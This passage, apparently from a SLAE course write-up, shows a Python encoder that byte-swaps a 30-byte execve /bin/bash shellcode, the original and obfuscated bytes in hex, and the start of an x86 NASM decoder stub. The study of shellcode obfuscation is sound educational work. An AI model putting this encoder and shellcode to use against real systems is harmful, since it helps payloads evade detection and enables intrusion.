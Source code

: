 ```python
encoded = ''
i = 1
for s in s2n:
    if i == 1:
        a = s
    elif i == 2:
        encoded += '%s,' % s
        encoded += '%s,' % a
        i = 1
        continue
    i += 1

print encoded.rstrip(',')
```

The Python code generates the obfuscated shellcode in hex format based on the hardcoded original shellcode, calculating the shellcode length:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python encoder.py 
Shellcode length: 30 bytes

Original shellcode:
0x31,0xc0,0x50,0x68,0x62,0x61,0x73,0x68,0x68,0x62,0x69,0x6e,0x2f,0x68,0x2f,0x2f,0x2f,0x2f,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80

Obfuscated shellcode:
0xc0,0x31,0x68,0x50,0x61,0x62,0x68,0x73,0x62,0x68,0x6e,0x69,0x68,0x2f,0x2f,0x2f,0x2f,0x2f,0xe3,0x89,0x89,0x50,0x53,0xe2,0xe1,0x89,0x0b,0xb0,0x80,0xcd
osboxes@osboxes:~/Downloads/SLAE$ 
```

#### Assembly Code
-------------

The Assembly code will consist of the following components:

* Encoded shellcode
* Decoder (Loop through the sequence of bytes 15 times - as the encoded shellcode is 30 bytes in length)
* Decoded shellcode
* Execution of decoded shellcode

````nasm
; Filename: enocder.nasm
; Author: h3ll0clar1c3
; Purpose: Decode the encoded shellcode and spawn a shell on the local host  
; Compilation: ./compile.sh encoder
; Usage: ./encoder
; Shellcode size: 60 bytes
; Architecture: x86

global   _start

section .text
        _start:

        ; jump to encoded shellcode
        jmp short call_shellcode

        decoder:
        pop esi                         ; put address to EncodedShellcode into ESI (jmp-call-pop)
        xor eax, eax                    ; clear eax register (data)
        xor ecx, ecx                    ; clear ecx register (loop counter)
        mov cl, 15                      ; loop 15 times (shellcode is 30 bytes in length)

````